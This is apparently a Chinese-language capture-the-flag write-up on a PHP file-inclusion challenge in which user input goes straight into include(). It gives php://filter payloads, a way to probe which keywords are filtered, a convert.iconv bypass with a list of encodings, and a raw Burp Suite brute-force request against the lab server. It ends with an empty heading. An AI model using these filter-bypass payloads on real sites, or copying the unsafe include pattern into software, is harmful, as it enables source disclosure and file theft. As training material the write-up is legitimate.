



# fileinclude 过滤

题目

```
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```
伪协议
```
GET /?filename=php://filter/convert.base64-encode/resource=./check.php/ HTTP/1.1
```
* 【base64编码 是为了防止flag 在代码的注释中，所以使用base64解码 显示注释部分】

* 直接伪协议绕过，会出现 do not hack!  存在过滤

----

## 对过滤的处理

* 使用
* ?filename=1hp://1ilter/1ead=1onvert.1ase64-1ncode/1esource=1lag.1hp
* 逐一测试，将要测试的字符串中的1改回去即可

得到
```
/?filename=php://filter/1ead=convert.1ase64-1ncode/resource=flag.php
```
所以 需要绕过 read base64 encode 

### 对于read的处理
*  read：两者效果一样。
* 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
```
?filename=php://filter/convert.base64-encode/resource=xxx.php
?filename=php://filter/read=convert.base64-encode/resource=xxx.php
```

### 对过滤器convert.base64-encode的处理

https://blog.csdn.net/qq_44657899/article/details/109300335

由于convert还可以使用，所以选择使用其他的过滤器convert.iconv.* 

使用方法：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>


这里的<input-encoding>和<output-encoding>分别为输入的字符串编码方式和输出的字符串编码方式（字符集）。可选项如下（PHP: 支持的字符编码 ）：

#### 编码方式
https://www.php.net/manual/zh/mbstring.supported-encodings.php
```
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1
ISO-8859-2
ISO-8859-3
ISO-8859-4
ISO-8859-5
ISO-8859-6
ISO-8859-7
ISO-8859-8
ISO-8859-9
ISO-8859-10
ISO-8859-13
ISO-8859-14
ISO-8859-15
ISO-8859-16
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN
CP936
GB18030
HZ
EUC-TW
CP950
BIG-5
EUC-KR
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R
KOI8-U
ArmSCII-8
```

## payload
```
GET /?filename=php://filter/convert.iconv.§§.§§/resource=flag.php / HTTP/1.1
Host: 61.147.171.105:56702
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

* brupsuit cluster Bomb
* 将上述编码方式做成字典 添加两个set 爆破 得到flag



---
## brup 爆破模式

